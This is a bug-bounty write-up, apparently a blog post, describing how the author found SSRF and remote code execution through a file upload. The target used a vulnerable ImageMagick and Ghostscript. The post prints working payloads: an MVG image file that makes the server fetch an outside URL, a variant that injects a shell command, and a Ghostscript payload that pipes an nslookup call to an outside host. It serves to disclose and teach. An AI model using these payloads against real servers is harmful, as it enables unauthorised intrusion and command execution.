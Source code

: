 ```yaml
---
title: Unrestricted File Upload Leads to SSRF and RCE
author: Muhammad Adel
date: 2021-011-10 19:40:00 +0200
categories: [Bug Hunting]
tags: [bug hunting, web, insecure file upload, SSRF, RCE, writeups]
---
```

## **Introduction**
Peace be upon you all, I am going to share with you a vulnerability that I have found almost a year ago and it is remarkable for me because it was the first critical one for me anyway let's jump in.

## **ImageMagick**
It is a package commonly used by web services to process images. A number of image processing plugins depend on the ImageMagick library, including, but not limited to, PHP's imagick, Ruby's rmagick and paperclip, and nodejs's imagemagick.. it has been commonly exploited in 2016 when Nikolay Ermishkin from the Mail.Ru Security Team discovered several vulnerabilities in it under the CVEs **(CVE-2016-3714 - CVE-2016-3718 - CVE-2016-3715 - CVE-2016-3716 - CVE-2016-3717).** you can know more information about the vulnerability form here:  
[https://imagetragick.com/](https://imagetragick.com/)
## **The Finding**
I was testing the target for a couple of days and I was able to find multiple trivial XSS that gives me an indication that this target didn't test well before. Also, the target was running with PHP and I love it as Bug Hunter :). I looked for the file upload vulnerability and I started by sending it to Burp plugin which test the file upload vulnerability. after some minutes I saw that red message saying the target is vulnerable to CVE-2016-3714. great, it is time for validating.

### **SSRF via CVE-2016-3718**
I will setup burp collaborator to receive the connection then simply add the following payload and replace it with your web server URL:

```
push graphic-context
viewbox 0 0 640 480
fill 'url(http://example.com/)'
pop graphic-context
```

![](https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F-MCqUkL4kqM1UUu5XPc6%2Fuploads%2FRRICM91g9OJ6HA9gLHTI%2FImagetragick%20CVE-2016-3718_redacted.png?alt=media&token=67ecf899-b8c0-4627-9fa8-745bf4d20843)

### **RCE via CVE-2016-3714**

Now, we have confirmed that it is using the image magic library and it is vulnerable to SSRF so let's try to get RCE.
```
push graphic-context
viewbox 0 0 640 480
fill 'url(https://example.com/image.jpg";|ls "-la)'
pop graphic-context
```

I tried it but it didn't give back anything. maybe it is blind?

![](https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F-MCqUkL4kqM1UUu5XPc6%2Fuploads%2Ferrm4RKgIvm3SHHVxJ2Q%2FImagetragick%20CVE-2016-3718%20Payload.png?alt=media&token=aab34ad1-4c87-4bfe-8bc3-45c130d1893b)

![](https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F-MCqUkL4kqM1UUu5XPc6%2Fuploads%2F0E7YUTHCDpWGo4963XkO%2FCollaborator%20CVE-2016-3718.png?alt=media&token=40aea20d-3428-4a61-86b6-98571a34ffae)

Great it is working perfectly!!

### **RCE via GhostScript**
After digging deeper I found that it is also vulnerable to ghostscript vulnerability which also will allow us to get RCE. let's see the following payload:

```
%!PS
userdict /setpagedevice undef
legal
{ null restore } stopped { pop } if
legal
mark /OutputFile (%pipe%nslookup <url>) currentdevice putdeviceprops
```
![](https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F-MR5KvOL_gXbwMWP6Z6m%2Fuploads%2FhyxVQVe6vG7InHA9B1H7%2FGhostscript%20RCE%20via%20File%20Upload%20redacted.png?alt=media&token=7ec3f68f-dc3d-452d-9c3a-10dc53dd9c36)

## **Conclusion**
I hope you enjoyed reading this and if you have any question feel free to ping me any time, Happy Hunting!
